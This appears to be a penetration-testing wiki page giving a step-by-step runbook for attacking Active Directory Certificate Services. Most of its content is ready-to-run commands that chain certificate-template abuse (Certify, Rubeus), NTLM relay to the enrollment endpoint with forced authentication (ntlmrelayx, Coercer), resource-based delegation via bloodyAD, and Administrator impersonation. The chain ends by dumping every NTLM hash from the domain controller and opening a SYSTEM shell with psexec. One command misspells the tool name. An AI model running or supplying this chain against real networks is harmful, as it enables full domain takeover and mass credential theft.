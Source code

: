 ```yaml
---
title: Attacking Active Directory Certificate Services
tags:
  - breach
  - operations
  - attack
  - active
  - directory
  - certificates
  - services
  - service
  - certificate
---
```


A majority of the discussion in this section references
[a SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
paper on abusing **Active Directory Certificate Services (ADCS)**.

## Misconfigured certificate templates

We can use the [Certify](https://github.com/GhostPack/Certify) toolkit to
identify vulnerable certificate templates by invoking the following:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"find",
		"/vulnerable"
	)
```

If we identify a vulnerable certificate template that enables low-privileged
users to enroll certificates with an alternative subject name and that allow
user login, we can use
[PowerSploit's PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
tool to identify Domain Administrators by invoking the following:

```powershell
. .\PowerView.ps1
Get-DomainGroupMember -Identity 'Domain Admins'
```

Finding a valid Domain Admin, we can use the **Certify** toolkit again to enroll
a certificate:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"request",
		"/ca:${DOMAIN}\${DOMAIN_CONTROLLER}",
		"/template:${TEMPLATE_NAME}",
		"/altname:${DOMAIN_ADMIN_USERNAME}"
	)
```

After successfully enrolling a certificate, a certificate will be printed to
`stdout` starting with `-----BEGIN RSA PRIVATE KEY-----`. Write all of the
contents of the certificate to a `.pem` file so we can operate on it. Using
**openssl**, we can convert the certificate to a `.pfx` file:

```powershell
Start-Process `
	-FilePath "openssl" `
	-ArgumentList @(
		"pkcs12",
		"-in",
		"${PEM_FILE}",
		"-keyex",
		"-CSP",
		"'Microsoft Enhanced Cryptographic Provider v1.0'",
		"-export",
		"-out",
		"${OUTFILE}.pfx"
	)
```

With our new `.pfx` certificate in hand, we can use
[Rubeus](https://github.com/GhostPack/Rubeus) to request a **Ticket Granting
Ticket (TGT)** by invoking the following, injecting the TGT into our user's
memory:

```powershell
Start-Process `
	-FilePath ".\Rubeus.exe" `
	-ArgumentList @(
		"asktgt",
		"/user:${DOMAIN_ADMIN_USERNAME}",
		"/certificate:${OUTFILE}.pfx",
		"/password:${CERTIFICATE_PASSWORD}",
		"/ptt"
	)
```

## Attacking ADCS HTTP endpoints

The ADCS certificate enrollment process typically involves an HTTP-based web
server that hosts an ASP application endpoint at
`http://${CASERVERHOSTNAME}/certsrv`. The enrollment server doesn't always use
HTTPS by default, making it vulnerable to an HTTP relay attack.

When we perform our attack, we trick privileged accounts like machine or service
accounts, e.g. the Domain Controller account, to authenticate to our attacker
machine. We can then relay this authentication to the certificate enrollment
service while requesting access to a certificate template that contains Client
Authentication to a target we want to compromise.

Using the [Certipy](https://github.com/ly4k/Certipy) tool, we can enumerate a
domain's certificate templates for vulnerable configurations by invoking the
following:

```bash
certipy-ad find -u "${USER}@${DOMAIN}" -p "${PASSWORD}" -dc-ip ${DOMAIN_CONTROLLER_IPADDR} -enabled
```

We could use a tool like [Bloodhound](https://github.com/SpecterOps/BloodHound)
to interpret the results of the above invocation. Finding a vulnerable template,
we can use **impacket-ntlmrelayx** to stage our NTLM relay:

```bash
impacket-ntlmrelayx -t "http://${CA_HOSTNAME}/certsrv/certfnsh.asp" --adcs --template ${VULNERABLE_TEMPLATE} -smb2support
```

We can use the [Coercer](https://github.com/p0dalirius/Coercer) toolkit to
coerce the Domain Controller account to authenticate to our fake service using
vulnerable RPC commands. In the following example, we abuse the
`EfsRpcAddUsersToFile` RPC endpoint:

```bash
coercer coerce --target-ip ${DC_IPADDR} --l ${LHOST} -u ${USER} -p ${PASS} --filter-method-name EfsRpcAddUsersToFile
```

After invoking the above, the Domain Controller will authenticate to us and our
NTLM relay will use the Domain Controller's authentication to enroll a new
certificate for authentication. **impacket** will proceed to write the `.pfx`
certificate to disk.

## Abusing LDAP with certs

Sometimes the Kerberos Key Distribution Center (KDC) doesn't have certificate
authentication enabled. We can abuse LDAP with a certificate we've enrolled for
the Domain Controller to pivot and pwn the domain.

Using [bloodyAD](https://github.com/CravateRouge/bloodyAD), we see if we can
create a new computer within the domain:

```bash
python bloodyAD.py -d ${DOMAIN} -u ${USER} -p ${PASS} --host ${DC_IPADDR} get object "DC=${DOMAIN},DC=com" --attr ms-DS-MachineAccountQuota
```

If the `ms-DS-MachineAccountQuota` is greater than 0, we're good to go for
creating a new host. We can invoke the following to do this:

```bash
python bloodyAD.py -d ${DOMAIN} -u ${USER} -p ${PASS} --host ${DC_IPADDR} add computer ${COMPUTERNAME} ${COMPUTERPASSWORD}
```

We invoke the following to convert our `.pfx` file to a `.pem` file and then use
the Domain Controller's certificate to enable our new computer to impersonate
users:

```bash
openssl pkcs12 -in ${CERT}.pfx -out ${CERT}.pem -nodes
python bloodAD.py -d ${DOMAIN} -c ":${CERT}.pem" -u "${COMPUTERNAME}$" --host ${DC_IPADDR} add rbcd "${DC_COMPUTERNAME}$" "${COMPUTERNAME}$"
```

With the ability to impersonate any user, let's acquire a Kerberos TGT for the
**Administrator** account on the Domain Controller:

```bash
impacket-getST -spn LDAP/${DC_COMPUTERNAME}.${DOMAIN} -impersonate Administrator -dc-ip ${DC_IPADDR} "${DOMAIN}/${COMPUTERNAME}:${PASSWORD}"
```

This will create a `.ccache` file for the user we've impersonated. Using
techniques from our
[[linux-lateral-movement#Impacket|Linux lateral movement - Impacket]] and
[[windows-lateral-movement#Metasploit|Windows lateral movement - Metasploit]]
discussions, we can establish a **SOCKS5** proxy with our current access into
the domain and use **proxychains** to enumerate and attack the domain with our
new Kerberos TGT.

For example, we can dump all NTLM hashes from the domain controller by invoking
the following:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/secretsdump.py "${DOMAIN}/Administrator@${DC_COMPUTERNAME}.${DOMAIN}" -k -no-pass -dc-ip ${DC_IPADDR} -target-ip ${DC_IPADDR}
```

Even juicier, let's obtain a shell as **SYSTEM** on the Domain Controller using
`psexec`:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/psexec.py "${DOMAIN}/Administrator@${DC_COMPUTERNAME}.${DOMAIN}" -k -no-pass -dc-ip ${DC_IPADDR} -target-ip ${DC_IPADDR}
```

## References

- [AD Certifried](https://cravaterouge.com/articles/ad-certifried/)

